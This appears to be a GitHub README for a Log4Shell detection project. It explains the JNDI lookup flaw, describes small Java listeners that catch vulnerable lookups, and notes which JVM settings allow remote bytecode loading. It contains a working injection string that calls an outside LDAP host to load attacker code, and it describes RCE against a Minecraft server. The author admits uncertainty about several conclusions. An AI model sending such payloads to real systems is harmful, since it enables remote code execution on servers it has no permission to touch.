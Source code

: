 # Log4Shell Zero-Day Exploit

if attacker manage to log this string `${jndi:ldap://someaddresshere/param1=value1}`
to log4j it somehow loads the class/java bytecode sent by Attacker Controlled LDAP Server. The bytecode could be used to
execute any malicious code or do some little trolling.

take this with grain of salt, I'm not a security expert.

## Detection

### Patched

- Mitigated by deleting `org.apache.logging.log4j.core.lookup.JndiLookup` somehow didn't crash
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919169712435388466/unknown.png)

### Unpatched

- Note: 1.16.5 Minecraft Server RCE exploit
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919170755843989534/unknown.png)
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919172251771895878/unknown.png)

### [MainDetector.java](standalone-detector/src/main/java/itzbenz/MainDetector.java)

Use simple socket to listen on port 1389 then close the socket once its connected no external dependency

- Note: not always the case, sometimes it doesn't bother to load class url location given by LDAP Server
- Vulnerable to lookup:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166884425900082/unknown.png)

- Log:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166938654072852/unknown.png)

going to throw error if its is vulnerable

### [MainAlerter.java](standalone-detector/src/main/java/itzbenz/MainAlerter.java)

Use `com.unboundid:unboundid-ldapsdk` library to host LDAP server

- Note: doesn't mean it's vulnerable to RCE exploit.
- Vulnerable to lookup:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919168285709312000/unknown.png)
- LADP Server logs:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919171844836311050/unknown.png)

### DNS Log

Both sender and receiver are logged which mean they are vulnerable

- Note: if it's get logged, doesn't mean it's vulnerable to RCE
- Vulnerable to lookup:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919174049861619752/unknown.png)

## Conclusion

- if java do LDAP lookup doesn't mean it is always vulnerable, but if is load the classpath provided then it is ?
  - vulnerable to RCE and LDAP lookup:
    ![](https://cdn.discordapp.com/attachments/919142724114972744/919448027058540554/unknown.png)
  - not vulnerable because java don't fetch bytecode ??, still vulnerable to LDAP lookup:
    ![](https://cdn.discordapp.com/attachments/919142724114972744/919448406924083210/unknown.png)

- to test if it's actually vulnerable to RCE, try to use harmless payloads if its running then its vulnerable.

- if `com.sun.jndi.ldap.object.trustURLCodebase` property is set to `true` then you are vulnerable like really
  ![](https://cdn.discordapp.com/attachments/918290369639227434/919240541810610206/unknown.png)

- if you found the victim log and see this:

```
  Caused by: java.lang.ClassNotFoundException: itzbenz.payload.ObjectPayloadSerializable
        at java.net.URLClassLoader.findClass(Unknown Source)
        at java.lang.ClassLoader.loadClass(Unknown Source)
        at sun.misc.Launcher$AppClassLoader.loadClass(Unknown Source)
        at java.lang.ClassLoader.loadClass(Unknown Source)
  ```

it's safe because it will not load classpath provided by attacker ?? though it's still doing LDAP lookup which is large
attack surface.

note: (after updating java 8, the minecraft server seem not load the classpath)

# Disclaimer

This project can only be used for educational purposes. Using this software against target systems without prior
permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.
